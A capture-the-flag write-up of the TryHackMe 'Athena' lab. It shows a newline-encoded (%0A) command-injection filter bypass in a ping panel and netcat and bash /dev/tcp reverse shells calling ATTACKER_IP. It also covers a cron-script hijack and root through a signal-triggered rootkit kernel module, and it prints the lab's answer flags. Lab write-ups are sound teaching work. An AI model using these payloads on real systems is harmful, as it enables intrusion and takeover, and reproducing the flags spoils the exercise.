







# Athena — TryHackMe Writeup

**Target:** Athena  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Category:** SMB, Web Enumeration, Command Injection, Kernel Module, Cron Job, Privilege Escalation

---

## Recon

I started with Rustscan to scan for open ports.

```bash
rustscan -b 500 --scripts none -t 5000 -a TARGET_IP
```

I then used Nmap to enumerate the services running on the discovered ports.

```bash
nmap -sC -sV -T4 -p22,80,139,445 TARGET_IP
```



An SMB service was running on the target. I enumerated it using `smbmap` and `smbclient`, and found a file named `msg_for_administrator.txt`.

```bash
smbmap -H TARGET_IP
smbclient //TARGET_IP/public -N
```



After transferring the file to my machine, I found the following contents:

```text
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

The file revealed a new path, `/myrouterpanel`, along with a possible username, `Athena`. I therefore pivoted back to the website and checked the discovered path.

It contained a Ping Tools application.



---

## Initial Foothold — Command Injection

I first tested a simple payload:

```text
8.8.8.8 ; id
```

The website redirected me to a page containing `attempt hacking!`.

This showed that the application had filtering against certain input.

I then tested the request through a proxy to inspect the parameter format. The request was structured as:

```text
ip=INPUT&submit=
```

After trying several payloads, I found a way to bypass the filter using newline encoding with `%0A`.

Payload:

```text
ip=1%0Aid&submit=
```



After confirming the command injection, I attempted to obtain a reverse shell.

I used Netcat because the command could be executed through the injection after bypassing the input filter with the newline encoding.

```text
ip=8%0Anc ATTACKER_IP 9004 -e /usr/bin/sh&submit=
```



The reverse shell was successfully obtained.

---

## Kernel Module Enumeration

During enumeration, I found a kernel module:

```text
/mnt/.../secret/venom.ko
```

At first, I did not understand what a `.ko` file was and had no idea how to reverse engineer a kernel module. I tried inspecting the file, but I could not understand how it worked.

Because of that, I used AI to help analyze the binary.

The analysis revealed several interesting functions:

```text
hacked_kill
give_root
module_hide
module_show
get_syscall_table_bf
```

`hacked_kill()` appeared to check for several specific signals, and the analysis indicated that signal `57` could lead to `give_root()`. That function then modified the process credentials.

At that point, I could not verify the finding because the module had not been loaded and I did not yet have the required privileges. I therefore parked this finding and continued enumerating the system.

---

## Privilege Escalation — `www-data` → `athena`

During further enumeration, I found a process executing a backup script:

```text
2026/08/20 21:54:28 CMD: UID=1001  PID=3211 | /bin/bash /usr/share/backup/backup.sh
2026/08/20 21:54:28 CMD: UID=1001  PID=3212 | /bin/bash /usr/share/backup/backup.sh
2026/08/20 21:54:28 CMD: UID=1001  PID=3213 | /bin/bash /usr/share/backup/backup.sh
2026/08/20 21:54:28 CMD: UID=1001  PID=3214 | /bin/bash /usr/share/backup/backup.sh
2026/08/20 21:54:28 CMD: UID=1001  PID=3215 | rm /home/athena/backup/*.sh
```

The script had the following permissions:

```text
-rwxr-xr-x 1 www-data athena 258 May 28  2023 /usr/share/backup/backup.sh
```

`www-data` was the owner of the script and had write permission. At the same time, the process executing the script was running as `UID=1001`, which corresponded to user `athena`.

This meant that `www-data` could modify a script that would later be executed with `athena`'s privileges.

The script contained:

```bash
#!/bin/bash
backup_dir_zip=~/backup
mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"
zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

Since I could modify the script, I appended a reverse shell payload:

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/9005 0>&1' >> /usr/share/backup/backup.sh
```

I then waited for the script to be executed again. After approximately one minute, I received a shell as user `athena`.



---

## Privilege Escalation — Malicious Kernel Module

After obtaining a shell as `athena`, I checked `sudo -l` and found:

```text
(root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

The `venom.ko` finding that I had previously parked was now relevant again. I could execute `insmod` on the module as root.

I then followed the earlier AI-assisted analysis and attempted to trigger the module using signal `57`.

```bash
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
kill -57 $$
```

After that, I checked my privileges:

```bash
id
```

The result was:

```text
uid=0(root) gid=0(root) groups=0(root)
```

Root access was successfully obtained.



---

## Flags

### User Flag

```text
857c4a4fbac638afb6c7ee45eb3e1a28
```

### Root Flag

```text
aecd4a3497cd2ec4bc71a2315030bd48
```

